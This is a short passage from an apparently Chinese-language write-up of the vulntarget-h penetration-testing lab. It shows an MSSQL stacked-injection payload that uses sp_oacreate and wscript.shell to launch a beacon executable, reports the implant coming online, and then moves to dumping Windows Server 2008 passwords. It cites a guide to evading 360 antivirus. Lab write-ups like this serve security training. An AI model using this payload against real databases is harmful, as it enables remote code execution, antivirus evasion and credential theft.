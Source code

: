 > ```bash
> http://192.168.1.99/?user_id=1;
> declare @o int;
> exec sp_oacreate 'wscript.shell',@o out;
> exec sp_oamethod @o,'run',null,'sqlps C:\inetpub\edrfgyhujikopl\beacona.exe';
> ```
> 
> + 上线成功。
> 
> ![Screenshot_2022-07-01_04-02-11.png](../images/vulntarget-h%20write-up/Screenshot_2022-07-01_04-02-11.png)
> 
> > 上面教程参考于：[MSSQL注入绕过360执行命令](https://macchiato.ink/web/web_security/mssql_bypass/#0x03-%E6%9D%83%E9%99%90%E6%8F%90%E5%8D%87)
> 
> + 抓取Windows Server 2008密码。
> 